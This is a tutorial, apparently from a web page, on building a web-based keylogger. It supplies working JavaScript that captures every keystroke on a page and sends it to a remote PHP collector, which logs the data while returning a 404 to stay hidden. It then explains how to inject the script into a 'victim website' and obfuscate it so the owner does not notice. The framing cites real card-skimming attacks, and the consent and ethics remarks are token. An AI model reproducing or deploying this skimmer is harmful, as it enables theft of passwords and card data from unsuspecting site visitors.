 ## Introduction

Researchers estimate thousands of e-commerce sites are under attack by a single threat actor that has infected servers with a web-based keylogger. Popular e-commerce sites infected with web-based keyloggers are being used to steal credit card data as it's entered into online checkout forms. More than 100 compromised sites have been identified, but the number could be in the thousands.

In today’s digital landscape, understanding security vulnerabilities is crucial. Whether you’re a developer, a security enthusiast, or just curious about how keyloggers work, this tutorial will guide you through the process of building a simple web-based keylogger. By combining JavaScript and PHP, you’ll be able to record and analyze user keystrokes on your website. Remember that responsible use and ethical considerations are essential when implementing such features.

* * *

## Setting Up Your Environment

**Prerequisites**

Before diving into the code, ensure you have the following prerequisites:

- Set up a local development environment with PHP and a web server (such as Apache or Nginx).
- Create a new directory for your project.

**User Consent**

- Inform users that their keystrokes are being recorded (e.g., through a disclaimer or terms of use).
- Obtain explicit consent if necessary.

**Data Transmission**

- Implement encryption (e.g., HTTPS) for transmitting data between the client and server.
- Avoid storing sensitive information like passwords.

**Server Security**

- Regularly review and secure your server to prevent unauthorized access.

* * *

## What We Can Do With a Keylogger?

Keylogger is a type of software that once active on a system, can record every keystroke made by the system. All the recorded keystroke is saved in a log file. A keylogger can record a message, email, and capture any type of information you type at any time using your keyboard.

### Who Uses a Keylogger?

A keylogger is a surveillance tool, used by employers to ensure employees use work computers for business purposes only. There's also a growing market for parents who want to use these tools to stay informed about a child's online activities. But nowadays these tools are used by a hacker for hacking email ids and confidential information of the user like password Social Security number, Credit Card, etc ... This is one of the easiest ways of extracting critical information by tricking people.

### How It Works?

Below is an example for a simple web-based keylogger, In this documentation, you will know how keylogger works, type of programming by which we record and monitor every keystroke typed by the user on a website.

* * *

## Create The Keylogger

First of all, we have to create an environment for practical and follow the steps which we mention in the details below.

### Create HTML Form

```html
<form action="#">
    <label>Firstname:</label>
    <input type="text" name="firstname" placeholder="Mickey" style="width:250px">
    <label>Lastname:</label>
    <input type="text" name="lastname" placeholder="Mouse" style="width:250px">
    <label>Message:</label>
    <textarea name="message" style="width:500px;height:100px;"></textarea>
    <input type="submit" value="Submit">
</form>
```

This HTML form is for the unique purpose to demonstrate how a web-based keylogger works.

### Create JS Keylogger file - keylogger.js

```html
if((window.jQuery))
{ 
    console.log("jQuery Found");
}
else
{ 
    console.log("jQuery Not Found");
    var script = document.createElement('script');
    script.src = 'https://code.jquery.com/jquery-3.3.1.min.js';
    document.body.appendChild(script);
}

function c(d)
{
    jQuery.ajax(
    { 
        dataType: "jsonp",
        type: "GET",
        url: "https://example.com/keylogger.php",
        jsonp: "keypressed",
        data: 
        { 
            altnKey: d.altKey ? 1:0,
            ctrlKey: d.ctrlKey ? 1:0,
            userKey: d.key,
            targKey: d.target.id,
            userURI: d.target.baseURI
        },
        async: false,
        success: function(data)
        { 
            console.log(data);
        },
        error: function(xhr, ajaxOptions, thrownError)
        { 
            console.log("Error");
        }
    });
}

window.onload = function()
{ 
    window.addEventListener("keydown", function(e)
    { 
        c(e);
    });
}
```

The above code in JavaScript can be injected directly to the victim website or can be hosted remotely. The purpose of this code is to grab the keystroke of the user and send it to a remote server. Please be sure to replace "[https://example.com/keylogger.php](https://web.archive.org/web/20210226153558/https://example.com/keylogger.php)" with the real URL of your PHP file.

To save time we are going to do it with jQuery. So to avoid any errors the first thing we do is make sure that jQuery is present on the victim page, and load it in case we didn't found it.

We declare a function "**c**", where the parameter "**d**" which will be the keypress. This function will have an Ajax call to the PHP file that receives the keystrokes.

### Create PHP Keylogger file - keylogger.php

```html
header($_SERVER["SERVER_PROTOCOL"]." 404 Not Found", true, 404);
header('Access-Control-Allow-Methods: GET, REQUEST, OPTIONS');
header('Access-Control-Allow-Credentials: true');
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Headers: Content-Type, *');
$file = 'data.txt';
if(!file_exists($file))
{ 
    $fh = fopen($file, 'w');
}

function f($str)
{ 
    return trim(preg_replace("(\\\)","",htmlentities(strip_tags($str),ENT_QUOTES,'UTF-8')));
}

$altnKey = (int)$_GET['altnKey'];
$ctrlKey = (int)$_GET['ctrlKey'];
$userKey = f($_GET['userKey']);
$targKey = f($_GET['targKey']);
$userURI = f($_GET['URI']);
$string = $altnKey."|".$ctrlKey."|".$userKey."|".$targKey."|".$userURI." ";
file_put_contents($file, $string, FILE_APPEND);
```

The server part is in PHP. There is nothing to explain about the above code, the purpose of the PHP file is to receive the keystroke value transferred in Ajax by the JavaScript and store it in a simple text file. The "keylogger.php" must be hosted to a remote server and the full file URL must be specified in the "keylogger.js" file.

You can adapt the above code to match your exact needs. For example, you maybe would like to save the results directly to a database or either send it to an e-mail address.

### Inject the JS file

Now that we are ready with our file, we must inject the JavaScript on our victim website. To do it, we will add the below line of code at the end of our HTML file. In a real situation, you must add this line between the tags. Please be sure to replace "[https://example.com/keylogger.js](https://example.com/keylogger.js)" with the real URL of your JS file.

```html
<script type="text/javascript" src="https://example.com/keylogger.js"></script>
```

### Javascript Obfuscation

We can move further, using an [obfuscation](https://javascriptobfuscator.com/) online tool to hide our JavaScript code and avoid the website owner to detect the keylogger at first sight.

* * *

## Conclusion

Creating a web-based keylogger involves setting up HTML, JavaScript, and PHP components. While this tutorial provides a basic overview, you can explore more advanced features like capturing mouse events, tracking specific fields, or analyzing patterns in keystrokes. Always prioritize user privacy and security, and use keyloggers responsibly.